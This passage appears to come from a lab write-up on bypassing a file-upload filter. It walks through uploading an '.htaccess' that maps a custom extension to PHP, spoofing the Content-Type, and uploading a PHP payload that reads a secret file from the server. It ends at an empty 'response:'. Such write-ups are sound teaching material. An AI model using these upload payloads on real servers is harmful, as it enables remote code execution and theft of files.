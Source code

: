 to:

```php
'AddType application/x-httpd-php .z0z'
```

8. **change _name_ file: =>**

```php
"exploit.php to => '.htaccess'"
```

```php
'filename=".htaccess"'
```

9. **change: _Content-Type_:**

```php
'application/octet-stream'
```

to: =>

```php
'Content-Type: text/plain'
```

_find this from_: (https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/MIME_types/Common_types)
_comment_: => "`text/plain` is the default value for textual files. A textual file should be human-readable and must not contain binary data."

```php
'Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain
AddType application/x-httpd-php .z0z'
```

response:

```php
'The file avatars/.htaccess has been uploaded.<p>'
'HTTP/2 200 OK'
```

10. **Send again _original Request from Burp_ with change extention: =>**

```php
'filename="exploit.z0z"'
```

```php
'Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/octet-stream

<?php echo file_get_contents('/home/carlos/secret'); ?>'

```

response:
